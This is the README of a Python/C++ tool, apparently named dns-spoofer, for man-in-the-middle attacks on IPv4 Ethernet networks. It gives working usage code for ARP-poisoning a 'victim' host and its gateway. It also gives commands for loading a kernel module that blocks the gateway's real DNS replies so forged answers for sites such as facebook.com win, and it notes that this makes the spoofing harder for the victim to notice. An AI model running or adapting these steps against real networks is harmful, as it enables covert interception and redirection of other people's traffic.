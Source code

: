 [![Build Status](https://travis-ci.org/adw1n/dns-spoofer.svg?branch=master)](https://travis-ci.org/adw1n/dns-spoofer)
![implementation](https://img.shields.io/badge/python-3.4%2C%203.5%2C%203.6-blue.svg)
![versions](https://img.shields.io/badge/implementation-cpython-blue.svg)

Work In Progress
### About
man in the middle attacks

#### Limitations
* Ethernet II networks
* ipv4 only

#### Dependencies / requirements
* libnet-dev
* libpcap-dev
* python3-dev
* c++ compiler with c++11 support

For the "firewall" module:
* linux kernel >=4 (tested on 4.2, 4.6 and 4.9)  
For older kernels you will probably have to change some functions signatures.
### Install

```bash
git clone https://github.com/adw1n/dns-spoofer
cd dns-spoofer

# If you are going to run setup.py install, then
# I recommend using a virtualenv for this.
python setup.py build
python setup.py install # You could also add directory build/lib... to the PYTHONPATH instead.
```

### Usage
```bash
sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward'
sudo python  # dnsspoofer requires root privileges
```
#### ARP poisoning
```python
import dnsspoofer

# module documentation is available by:
# help(dnsspoofer)

# your mac addr:
# 33:33:33:33:33:33
# example arp -n output:
# gateway:
# 192.168.1.1     ether   10:20:30:40:50:60   C  em1
# victim:
# 192.168.1.100   ether   01:02:03:04:05:06   C  em1
dnsspoofer.spoof_arp(b"\x01\x02\x03\x04\x05\x06",b"192.168.1.1")
# now arp -n output on the victim machine:
# 192.168.1.1     ether   33:33:33:33:33:33   C  em1

# you probably also want to spoof the victim's (192.168.1.100)
# mac address on the gateway
dnsspoofer.spoof_arp(b"\x10\x20\x30\x40\x50\x60",b"192.168.1.100")
```

#### DNS poisoning
see the [example.py](example.py) file

I haven't implemented the reverse DNS lookups (.in-addr.arpa requests), but this works fine in most cases without them too.
##### Netfilter kernel module
The DNS spoofing presented in example.py works, provided that you are faster than the gateway. This might not always be the case - for example the gateway might be caching the results. In this case the first time the victim tries to ping facebook.com everything might be working as expected, but the next time he asks about facebook.com the gateway will respond immediately. This can result in your response reaching the victim too late. This is super easy to notice in wireshark.

The additional benefit of blocking gateway's reponses to the spoofed requests is that it is going to be harder to notice the spoofing going around form the victim's point of view.
##### Solution
**!!!WARNING!!!  
Badly writen kernel module can screw up your system. I recommend using for this a VM. Your mileage may vary.  
!!!WARNING!!!**

```bash
cd firewall
make
modinfo dnsfirewall.ko # show info about the module


# load the module
sudo insmod dnsfirewall.ko blocked_sites="wp.pl|facebook.com|youtube.com" gateway=192.168.1.1 victim=192.168.1.100
# Module writes messages to SYSLOG with prefix 'DNS-SPOOFER'.


# remove the module
sudo rmmod dnsfirewall.ko
```
